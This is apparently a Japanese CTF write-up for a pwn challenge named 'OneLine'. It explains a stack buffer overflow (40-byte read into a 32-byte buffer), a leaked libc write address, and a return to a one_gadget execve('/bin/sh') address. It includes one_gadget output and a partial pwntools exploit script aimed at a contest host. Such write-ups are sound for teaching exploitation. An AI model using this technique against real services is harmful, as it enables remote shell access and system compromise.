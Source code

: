 まあ、色々と勉強になったのでよし。



## OneLine

時間内に解けなかった。あと1時間くらいあれば、、。

2回入力ができるプログラムとlibcのファイルが渡される。

入力のバッファは32バイトでreadで40バイト読み込んでいるため、バッファオーバーフローが起こせる。

libcが提供されているので、1度目 => libcのアドレスの出力、2度目 =>  libcのsystem実行という流れは見えたが、まずlibcのアドレスの出力でハマった。

バッファオーバーフローでpintfのpltに飛ばして、、といったことを色々試したが、引数をこちらから指定できないため成功せず。

その後、始めから最後の8バイトに入っているアドレスがlibcのwriteのアドレスということに気づき、最初からわかってたんやーん状態に。

また、libcのsystem実行においても引数が指定できないため、"/bin/sh"を渡すことができない。

これに対しては、system関数に飛ばすのではなく、[one gadget RCE](<http://katc.hateblo.jp/entry/2016/10/28/124025#%E8%A7%A3%E6%B3%952One-gadget-RCE%E3%81%A7instant-win%E4%BD%9C%E6%88%A6>) を用いることで引数を指定しなくてもshellを起動できる。

one gadget RCEは存在だけ知っていて実際に使ったことが無かったので探しているうちにタイムアップになってしまった、、。



### 解法

1. 1回目の入力 => 何も入力せず、出力される文字列から最後の8バイトを抜き出して**プログラム実行時の**libcのwriteのアドレスを得る。

2. **libcのファイル内の**one gadget RCEのアドレスと writeのアドレスの差から**プログラム実行時の**one gadget RCE のアドレスを計算する。

3. 2回目 => 32文字適当に入力し、その次に**プログラム実行時の**one gadget RCE のアドレスを入力する



one gadget RCEは、[one_gadget](<https://github.com/david942j/one_gadget>) を使えば候補を出してくれる。

```bash
% one_gadget libc-2.27.so                                                     
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

今回は一番下の `0x10a38c` を用いた。



exploitコード

```python
from pwn import *
rhp = {'host': '153.120.129.186', 'port':10000}

libc = ELF('./libc-2.27.so')
offset_libc_rce = 0x10a38c
offset_libc_write = libc.symbols[b'write']

conn = remote(rhp['host'], rhp['port'])

log.info(conn.recv()) 
conn.sendline('')
res = conn.recv(40)
log.info(res)
```